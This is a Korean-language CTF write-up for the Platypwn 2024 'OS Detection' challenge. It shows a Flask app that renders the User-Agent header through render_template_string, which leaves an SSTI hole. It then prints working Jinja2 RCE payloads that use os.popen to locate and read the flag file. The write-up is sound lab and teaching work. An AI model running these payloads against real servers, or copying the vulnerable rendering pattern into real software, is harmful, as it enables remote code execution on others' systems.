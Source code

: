 ```yaml
---
title: Platypwn CTF 2024 Write-Up
published: 2024-03-12
description: Platypwn CTF 2024 Write-Up
tags: [CTF]
category: Hacking
draft: false
---
```


# OS Detection #
문제에 대한 코드는 다음과 같이 User Agent에 대한 데이터를 파싱한 다음, 문자열에서 OS에 대한 종류에 대한 값을 가져온다. 그리고 ```render_template_string``` 함수를 통해서 문자열을 user_agent_hint에 반환한다. 여기서 ```render_template_string``` 함수는  ```{{ }}```안에 입력된 코드를 해석하므로, SSTI 취약점이 발생한다.

```
from flask import Flask, request, render_template, render_template_string
from ua_parser import user_agent_parser

app = Flask(__name__)

@app.route("/")
def home():
    user_agent = request.headers.get('User-Agent')
    try:
        parsed_string = user_agent_parser.Parse(user_agent)
        family = parsed_string['os']['family']
        user_agent_hint = render_template_string(user_agent)
        return render_template('index.html', os=family, user_agent=user_agent_hint)
    except Exception as e:
        return render_template('failure.html', error=str(e))
    
@app.route("/source")
def source():
    code = open(__file__).read()
    return render_template_string("<pre>{{ code }}</pre>", code=code)
    

if __name__ == "__main__":
    # No debug, that would be insecure!
    #app.run(debug=True)
    app.run()
```

그래서 SSTI 취약점을 이용해서 RCE Payload를 실행하면 flag를 얻을 수 있다. 하지만 flag에 대한 파일 위치를 모르기 떄문에 경로를 찾아야 된다.

```
{{config.__class__.__init__.__globals__['os'].popen('find / -name "flag*" 2>/dev/null').read()}}
```
이러한 RCE 이용해서 flag에 대한 경로를 구할 수 있다. 이 중에서 /app/flag/flag.txt 파일을 읽었다.

```
{{config.__class__.__init__.__globals__['os'].popen('cat /app/flag/flag.txt').read()}}
```

flag는 다음과 같다.

PP{h4ck3r-OS-d3t3ct3d::Q3HIY8GDEVv2}